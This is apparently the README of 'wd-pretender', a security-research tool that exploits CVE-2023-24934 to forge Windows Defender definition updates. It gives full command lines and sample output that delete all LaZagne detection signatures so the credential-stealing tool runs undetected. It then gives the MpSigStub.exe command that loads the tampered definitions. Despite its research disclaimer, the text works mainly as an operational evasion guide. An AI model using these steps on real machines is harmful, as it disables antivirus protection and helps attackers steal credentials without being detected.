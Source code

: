 # wd-pretender

## TL;DR
Compatible with Windows Defender platform version 4.18.2302.7 and earlier.


## Description
wd-pretender is a powerful tool designed to simulate a Windows Defender update using the [CVE-2023-24934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24934) vulnerability. This tool is intended for educational and research purposes only and should be used responsibly and with proper authorization. The primary objective of wd-pretender is to demonstrate potential security vulnerabilities and raise awareness about the importance of robust endpoint security measures.

## Features
- Bypass EDR Rules: Bypass certain Windows Defender security measures and remain undetected.

## Usage
```
-- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options]

Windows Defender Update

positional arguments:
  {bypass}
    bypass              bypass windows defender threats

optional arguments:
  -h, --help            show this help message and exit
  -o O                  output folder for the exported vdm files
  -d D                  set explicit definition update path
```

### Bypass
```
usage: wd-pretender.py command [options] bypass [-h] [-match MATCH | -name NAME | -id ID]

optional arguments:
  -h, --help    show this help message and exit
  -match MATCH  delete all threats that his name containes <name>
  -name NAME    delete threat by name
  -id ID        delete threat by his id
```

For example we want to bypass LaZagne rules and be able to execute LaZagne without been detected by Windows Defender.

```
python wd-pretender.py -o C:\BypassDefs bypass -match lazagne
```

Output:

```
python .\wd-pretender.py -o C:\BypassDefs bypass -match lazagne

        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
[+] Definitions Path: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{0E0FDC3E-A1A1-4500-9BEF-460F8E72E1C7}
[+] Initializing DefinitionUpdate
[+] Loading mpasbase.vdm
[+] Loading mpasdlta.vdm
[+] Loading mpavbase.vdm
[+] Loading mpavdlta.vdm

[#] Delete threats from Anti-Spyware definitions
[#] Delete threats from Anti-Virus definitions
      Deleting -> b'\xd8!LaZagne'
      Deleting -> b'HackTool:Python/LaZagne'
      Deleting -> b'HackTool:Python/LaZagne.A!MTB'
      Deleting -> b'\xd8!LaZagne!ml'
      Deleting -> b'HackTool:Python/LaZagne.D!MTB'
      Deleting -> b'\xcc!Golazagne.A!MTB'
      Deleting -> b'HackTool:Python/LaZagne.B'
      Deleting -> b'\xd8!LaZagne!sms'
      Deleting -> b'\xcc!Lazagne.A!MTB'
      Deleting -> b'\xcc\xe1Lazagne'
[+] Exporting definitions into: C:\BypassDefs
[+] mpasdlta.vdm: 1.389.2098.0 -> 1.389.2099.0
[+] mpavdlta.vdm: 1.389.2098.0 -> 1.389.2099.0
```
The output displays the deleted threat rules recorded by the tool, indicating the removal of 10 threats from the Anti-Virus definitions. The newly updated definitions have been exported to the user-supplied export path located at C:\BypassDefs.

To proceed, ensure that MpSigStub.exe is copied to the BypassDefs folder. Following that, execute the following command:

```
MpSigStub.exe /stub 1.1.18500.10 /payload <defintion_new_version>
```
The export log generated by wd-pretender confirms the presence of the updated definitions with the version indicated as <definition_new_version>.

To verify the successful update, please refer to the "MpSigStub.log" file located in the Temp folder of the user with whom the execution took place. For instance, if the tool was executed with administrator privileges (although it is not a requirement), the log file can be found at C:\Windows\Temp.
